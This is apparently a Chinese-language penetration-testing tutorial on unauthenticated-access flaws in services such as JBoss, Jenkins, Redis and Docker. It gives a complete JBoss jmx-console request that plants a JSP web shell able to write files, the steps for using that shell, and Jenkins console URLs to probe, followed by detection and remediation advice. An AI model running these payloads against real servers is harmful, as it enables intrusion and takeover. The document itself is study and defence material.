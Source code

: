 - Jboss 未授权访问
- Jenkins 未授权访问
- ldap未授权访问
- Redis未授权访问
- elasticsearch未授权访问
- MenCache未授权访问
- Mongodb未授权访问
- Rsync未授权访问
- Zookeeper未授权访问
- Docker未授权访问

#### JBOSS 未授权访问漏洞

默认情况下访问 [http://ip:](http://ip/)**8080**/jmx-console 就可以浏览 jboss 的部署管理的信息不需要输入用户名和密码可以直接部署上传木马有安全隐患

 影响范围JBOSS 全版本

1、写入一句话木马：

```
http://127.0.0.1:8080/jmx-console//HtmlAdaptor?action=invokeOpByName&name=jboss.admin%3Aservice%3DDeploymentFileRepository&methodName=store&argType=java.lang.String&arg0=August.war&argType=java.lang.String&&arg1=shell&argType=java.lang.String&arg2=.jsp&argType=java.lang.String&arg3=%3c%25+if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b+%25%3e&argType=boolean&arg4=True

```

2、写入1.txt文件

```
http://127.0.0.1:8080/August/shell.jsp?f=1.txt&t=hello world!

```

3、访问1.txt文件

```
http://127.0.0.1:8080/August/1.txt
```

##### 检测方法

先用 nmap 扫描查看端口开放情况看是否开放 JBOSS 端口。再使用漏洞测试工具测试 jmx 组件存在情况通过访问 [http://ip:jboss](http://ip/)端口/ 看是否能进入 jmx-console 和 web-console 

##### 修复方法

关闭jmx-console和web-console，提高安全性

#### Jenkins 未授权访问

漏洞原因：未设置密码，导致未授权访问。

漏洞测试：直接通过url访问

```http
http://<target>:8080/manage
http://<target>:8080/script
```
